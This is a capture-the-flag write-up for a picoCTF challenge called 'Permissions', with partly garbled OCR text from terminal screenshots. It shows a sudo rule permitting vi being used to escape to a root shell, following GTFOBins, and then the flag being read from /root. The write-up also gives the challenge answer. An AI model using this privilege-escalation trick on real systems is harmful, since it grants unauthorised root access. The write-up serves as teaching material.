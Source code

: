 # Permissions
> Can you read files in the root file?

## About the Challenge
We were given an access to SSH server and then we need to read the flag in the `root` directory

## How to Solve?
If we check the `sudo` configuration


[Image extracted text: picoplayer@challenge:~$ sudo
[sudo]
password
for
picoplayer
Matching Defaults entries
for picoplayer
challenge:
env_reset,
mail_badpass,
secure_
path-/usr/local/sbin| : /usr
User picoplayer
may
run the
following commands
on
challenge:
(ALL) /usr/bingvi]


There are only 1 commands that we can use, `/usr/bin/vi`. In this case we will be using `/usr/bin/vi` command to do privilege escalation (Im using [GTFOBins](https://gtfobins.github.io/gtfobins/vi/#sudo) to do privilege escalation)


[Image extracted text: picoplayer@challenge:~$
sudo vi
Ibin/bash
Idev/null
root@challenge: /home/picoplayer# whoami
root
root@challenge: /home/picoplayer#]


And then go to `/root` directory and read `.flag.txt` to obtain the flag


[Image extracted text: root@challenge
/home/picoplayer#
Iroot
root@challenge:~# Is
root@challenge:~# Is
~la
total 12
drwx
root
root
23 Mar 16 02:29
drwxr-xr-X 1
root
root
51
Mar 28 16.45
~rW-r--r
root
root 3106
Dec
2019
bashrc
~rW-r--r_
root
root
35
Mar 16 02:29
txt
~rW-r-
root
root
161
Dec
2019
profile
root@challenge:~# cat
txt
picoCTF{uSlng_
vIm
3ditor_55878651}
flag
flag _]


```
picoCTF{uS1ng_v1m_3dit0r_55878b51}
```